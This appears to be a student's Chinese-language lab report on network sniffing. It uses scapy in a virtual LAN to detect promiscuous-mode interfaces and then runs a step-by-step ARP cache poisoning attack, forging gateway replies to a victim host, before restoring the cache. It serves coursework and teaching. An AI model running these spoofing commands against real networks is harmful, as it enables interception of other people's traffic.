










##  实验四：网络监听

### 节点信息

- 攻击者主机
  - `08:00:27:b9:1c:0b`/`eth0`
  - `172.16.111.142`
- 受害者主机
  - `08:00:27:f0:55:87`/`eth0`
  - `172.16.111.149`
- 网关
  - `08:00:27:c8:81:af`/`enp0s9`
  - `172.16.111.1`
### 实验一：检测局域网中的异常终端

- ```
  # 在受害者主机上检查网卡的「混杂模式」是否启用
  ip link show eth0
  ```
- 

- ```
  # 在攻击者主机上开启 scapy，不提升权限有些操作无法进行
  sudo scapy
  ```
- 

- ```
  # 在 scapy 的交互式终端输入以下代码回车执行
  pkt = promiscping("172.16.111.149")
  ```
- 

- ```
  # 回到受害者主机上开启网卡的『混杂模式』
  # 手动开启该网卡的「混杂模式」
  sudo ip link set eth0 promisc on
  # 此时会发现输出结果里多出来了 PROMISC 
  ip link show eth0
  ```
- 

- ```
  # 回到攻击者主机上的 scapy 交互式终端继续执行命令
  # 观察两次命令的输出结果差异
  pkt = promiscping("172.16.111.149")
  ```
- 

- ```
  # 在受害者主机上
  # 手动关闭该网卡的「混杂模式」
  sudo ip link set eth0 promisc off
  ```
- 

- 查阅资料可知，promiscping命令会发出ARP广播包：
  - 混杂模式 接收所有经过网卡的数据包，不验证MAC地址。
  - 普通模式 网卡只接收发给本机的包，验证MAC地址。
- 在混杂模式下，受害者主机才能接收到promiscping命令发出的这数据包。
### 实验二：手工单步“毒化”目标主机的ARP缓存

#### 获取当前局域网的网关MAC地址

- ```
  # 构造一个 ARP 请求
  arpbroadcast = Ether(dst="ff:ff:ff:ff:ff:ff")/ARP(op=1, pdst="172.16.111.1")

  # 查看构造好的 ARP 请求报文详情
  arpbroadcast.show()
  ```
- 
- ```
  # 发送这个 ARP 广播请求
  recved = srp(arpbroadcast, timeout=2)

  # 网关 MAC 地址如下
  gw_mac = recved[0][0][1].hwsrc
  ```
- 
#### 伪造网关的ARP响应包

- ```
  # 准备发送给受害者主机
  # ARP 响应的目的 MAC 地址设置为攻击者主机的 MAC 地址
  # 这里要注意按照课件的代码试不能“毒化”的，需要在外面加一层Ethernet帧头
  arpspoofed = Ether()/ARP(op=2, psrc="172.16.111.1", pdst="172.16.111.149", hwdst="08:00:27:b9:1c:0b")
  ```
- 
- 受害者主机上的ARP缓存中网关的MAC地址已被替换为攻击者主机的MAC地址
- ```
  ip neigh
  ```
- 
#### 恢复受害者主机的ARP缓存记录

- ```
  ## 伪装网关给受害者发送 ARP 响应
  restorepkt1 = Ether()/ARP(op=2, psrc="172.16.111.1", hwsrc="08:00:27:c8:81:af", pdst="172.16.111.149", hwdst="08:00:27:f0:55:87")
  sendp(restorepkt1, count=100, inter=0.2)
  ```
- 
- 受害者主机刷新网关ARP记录
- ```
  ## 在受害者主机上尝试 ping 网关
  ping 172.16.111.1
  ## 查看受害者主机上 ARP 缓存，已恢复正常的网关 ARP 记录
  ip neigh
  ```
- 
- 

### 参考

[老师的课件](https://c4pr1c3.github.io/cuc-ns/chap0x04/exp.html)
[师姐的作业](https://github.com/CUCCS/2020-ns-public-LyuLumos/blob/ch0x04/ch0x04/%E7%BD%91%E7%BB%9C%E7%9B%91%E5%90%AC.md)